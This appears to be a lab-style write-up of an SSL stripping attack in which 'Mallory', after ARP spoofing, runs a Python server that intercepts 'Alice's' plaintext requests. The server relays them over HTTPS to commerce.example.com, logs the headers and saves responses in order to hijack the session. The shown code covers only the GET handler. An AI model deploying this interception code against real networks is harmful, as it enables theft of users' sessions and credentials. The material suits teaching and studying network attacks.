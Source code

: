 <br>

***

## SSL Stripping Server

***

Once the ARP spoofing is set up, Mallory will run the custom ssl stripping server to handle
requests from Alice's client.
The ssl-stripping is implemented in `server.py`.

```python
from functools import partial
from http.server import BaseHTTPRequestHandler, HTTPServer
from http.client import HTTPSConnection
from urllib import parse
import sys

SERVER = "commerce.example.com"
```

We implement the Server class inheriting from `BaseHTTPRequestHandler`

```python
class Server(BaseHTTPRequestHandler):

    def __init__(self, filepath, *args, **kwargs):
            self.filepath = filepath
            super().__init__(*args, **kwargs)
```

and specify how each of `GET`, `POST`, and `PUT` should be handled.
Recall we want to hijack the session so we intercept the `301` redirect
and establish our own connection with the server forwarding the information
so the session appears legitimate to Alice.

```python
    # GET request handler 
    def do_GET(self):
        body = ""
        method = 'GET'
        path = self.path

        body_length = self.headers.get('content-length')
        if ((body_length != None) and (int(body_length) > 0)):
            # read in the body
            body = self.rfile.read(int(body_length))

        headers = self.headers.items()
        headers_dict = dict(headers)
        print("headers")
        print(headers_dict)

        conn = HTTPSConnection(SERVER)
        conn.request(method, path, body, headers_dict)
        res = conn.getresponse()

        res_body = res.read().decode('utf-8')
        res_status = res.status
        res_headers = res.getheaders()

        if (path == "/check"):
            f = open(self.filepath,"w+")
            f.write(res_body)
            f.close()
            exit(0)
```